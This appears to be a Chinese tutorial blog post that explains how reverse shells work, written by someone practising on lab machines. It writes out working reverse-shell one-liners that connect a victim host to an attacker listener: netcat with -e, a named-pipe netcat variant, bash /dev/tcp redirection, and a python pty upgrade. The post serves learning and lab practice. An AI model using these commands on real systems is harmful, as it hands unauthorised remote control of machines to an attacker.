# 反弹shell原理简单理解

## 前言
最近这几天在做那个DC的靶场，一直在用反弹shell，但是仅仅是知道基本的反弹shell，其他的一点也不知道，所以这次就来学习下反弹shell
## 什么是反弹shell
使用Google hack语法搜索了一下，发现了很多的讲反弹shell的文章，但是具体讲反弹shell原理的并没有几个。
反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。
## 为什么要用反弹shell
反弹shell通常用于被控端因防火墙，权限不足，端口被占用等的情况
举例：假设你现在进入了一个机器的端口，现在该做的就是从本机连接攻击端，这是最常见的攻击方式。远程桌面，web服务，ssh，telnet等等，都是正向连接。
但是现在问题来了：
被控端的IP是动态改变的，无法进行持续的控制
被控端在局域网内，这样就导致你种的马无法进行连接
被控端防火墙受限，只能发送请求不能接收你的请求。
这时，选择利用反弹shell才是上策。因此，反弹shell的方式就是被控端给攻击端发送请求建立连接的一种方式

## 反弹shell的常见利用方式
### 实验环境

``` javascript
攻击机：kali linux：192.168.2.130
被控机：centos：192.168.2.139
```
### 开始
攻击机监听端口：

``` javascript
nc -nlvp 4444
```
被控机执行：

``` javascript
nc -e /bin/bash 192.168.2.130 4444
```
执行效果

之后可以利用python打开交互式界面

``` python
python -c "import pty;pty.spawn('/bin/bash')"
```

得到交互式界面。之后就可以进行提权等的一系列操作。
### 命令说明
在上面用到的命令`nc -e /bin/bash 192.168.2.130 4444`实现了反弹shell。

``` bash
nc #netcat简称，目前基本上所有的Linux都适配了这个工具，可实现任意TCP/UDP端口的侦听。
参数：-n 不反向解析dns，即不通过IP解析域名
		   -v 详细信息输出
		   -l 监听
		   -p 指定端口
		   -e 程序重定向
```

``` bash
/bin/bash #由GNU开发的Shell，主要目标是与POSIX标准保持一致，同时兼顾对sh的兼容，bash从csh和ksh借鉴了很多功能，是各种Linux发行版标准配置的Shell，在Linux系统上/bin/sh往往是指向/bin/bash的符号链接。此外还有其他的shell，如：sh、zsh等
```
所以上面的命令就是使用`netcat`将`shell`发送给指定的IP执行。
但是对于有些nc版本并没有-e参数，这样要如何实现呢？

``` bash
攻击机：nc -nlvp 4444
被控端： mknod [filename] p;nc [攻击机IP] [攻击机端口] 0<[filename] | /bin/sh 1>[filename]
```
效果


解释(个人简单理解)：
mknod命令创建了一个管道，然后通过nc命令将内容输入到管道文件中，然后传递给/bin/sh，sh会将管道文件的命令执行并将标准输出传到该管道，形成了一个回路。
类似命令：

``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [ip] [port] >/tmp/f
```
上面说的是利用netcat进行的反弹方式，下面介绍一下最常见的bash利用方法。

``` bash
bash -i >& /dev/tcp/192.168.2.130/4444 0>&1
```
简单解释：

``` bash
bash -i：
	bsh前面说了，是Linux中比较常见的一个shell
	-i 这个参数表示的是产生交互式的shell
/dev/tcp/ip/port：
	这个文件是一个特殊的设备文件你如果去访问是无法访问到的
	
```
对于一个文件，Linux中分为七种：

| 文件标识类型 | 文件类型 |
| ------------ | -------- |
| -            | 普通文件 |
| d            | 目录     |
| l            | 符号链接 |
| s            | 套接字   |
| b            | 块设备   |
| c            | 字符设备 |
| p            |       管道   |



虽然说这个文件并不存在但是如果在监听情况下对这个文件进行读写，就能实现反弹shell的效果。
而对于这个经典的反弹shell，其实可以拆分一下，这样子更加方便理解

``` bash
bash -i > /dev/tcp/ip/port
bash -i < /dev/tcp/ip/port

```
理解起来很简单
第一个命令，将输入的指令标准输入到攻击机上面，因此这样子的话，在被控端输入的任何指令都无法得到回显。

图片中上被控端输入的话得不到任何的回显。但是这样子话，我们好像并没有得到想要的效果，所以就有了第二个命令
对于第二个命令，意思就是将输入的命令传给被控端的bash，这样子自然就能执行了


现在，这两个命令结合一下，得到

``` bash
bash -i > /dev/tcp/ip/port 0>&1
```
但是这样的话所有在攻击机执行的命令都会在被控端得到回显


这样子又会让被控端知道你在干什么，所以要进行改良，就得到了最开始给的那个经典的反弹shell
执行之后


得不到回显
同样有类似的相同功能的命令

``` bash
bash -i > /dev/tcp/ip/port 0>&1 2>&1
```
对于这些符号，网上有很多的师傅们都总结过用法以及意思，就不进行总结，这里给一下我看到的一个[师傅的文章](https://xz.aliyun.com/t/2548)写的相关内容
## 总结
对于反弹shell的方法有很多，网络上面有各种各样的形式的反弹shell，但是用起来原理都是一样的，看到有很多形式的反弹shell，就是只有形式不给原理，就想学习一下原理是什么，文中可能因为水平有限解释的不到位，还请海涵。
